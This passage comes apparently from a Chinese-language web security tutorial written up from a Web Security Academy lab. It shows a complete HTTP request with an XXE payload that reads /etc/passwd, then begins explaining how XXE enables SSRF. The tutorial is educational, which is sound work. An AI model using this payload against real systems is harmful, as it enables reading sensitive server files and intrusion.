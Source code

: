 ```plain
POST /product/stock HTTP/1.1
Host: 0a0700fe0358be4480ed6cc800d8007f.web-security-academy.net
Connection: close
Content-Length: 176
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a0700fe0358be4480ed6cc800d8007f.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0700fe0358be4480ed6cc800d8007f.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=nKOc1GfbLdg5XX18iyjTCDqml2aKmoEN

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

[![](assets/1706060044-9617d47cfd81d8e02b9b1fc096d2f1d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123130620-259765d6-b9ad-1.png)

### XXE 进行 SSRF 攻击 (思路)

#### 基本介绍

XXE 攻击的另一个主要影响是它们可用于执行服务器端请求伪造 (SSRF)，这是一个潜在的严重漏洞，服务器端应用程序可能会被诱导向服务器可以访问的任何 URL 发出 HTTP 请求，要利用 XXE 漏洞执行 SSRF 攻击，您需要使用要针对的 URL 定义一个外部 XML 实体并在数据值中使用定义的实体，如果您可以在应用程序响应中返回的数据值中使用定义的实体，那么您将能够从应用程序响应内的 URL 查看响应，从而获得与后端系统的双向交互，如果没有，那么你将只能执行盲 SSRF 攻击

#### 简易案例
